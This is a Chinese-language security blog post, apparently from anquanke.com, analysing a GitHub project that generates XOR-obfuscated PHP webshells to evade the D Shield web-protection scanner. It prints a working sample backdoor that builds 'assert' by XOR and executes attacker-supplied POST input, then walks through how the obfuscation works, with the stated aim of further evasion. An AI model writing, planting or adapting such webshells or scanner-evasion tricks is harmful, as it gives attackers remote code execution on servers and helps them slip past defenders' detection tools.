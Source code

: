 > 原文链接: https://www.anquanke.com//post/id/193042 


# 随机异或无限免杀D盾之再免杀


                                阅读量   
                                **1196188**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t0143b3bda41a7582fc.jpg)](https://p2.ssl.qhimg.com/t0143b3bda41a7582fc.jpg)



## 项目分析

> 随机异或无限免杀D盾项目分析

首先分析随机异或无限免杀D盾的github项目：[https://github.com/yzddmr6/webshell-venom](https://github.com/yzddmr6/webshell-venom)

1，首先分析其生成的木马样例：（当前已经不免杀）

```
&lt;?php
class PXGF`{`
    function __destruct()`{`
        $RAFH='slvf*o'^"x12x1fx5x3x58x1b";
        return @$RAFH("$this-&gt;WSXP");
    `}`
`}`
$pxgf=new PXGF();
@$pxgf-&gt;WSXP=isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6'];
?&gt;
```

此木马中$RAFH的值是由两串`'slvf*o'^"x12x1fx5x3x58x1b";`字符异或得到的，此异或结果为assert。即$RAFH=assert，其中`return @$RAFH("$this-&gt;WSXP");`即为:`$pxgf-&gt;WSXP`是等于`$this-&gt;WSXP`，给`$pxgf-&gt;WSXP`如下赋值时，也就是给`$this-&gt;WSXP`如下赋值。即结果为：

```
return $RAFH("isset($_GET['id'])?base64_decode($_POST['mr6']):$_POST['mr6']");
```

而RAFH又等于assert，即最后结果为：即一句话木马
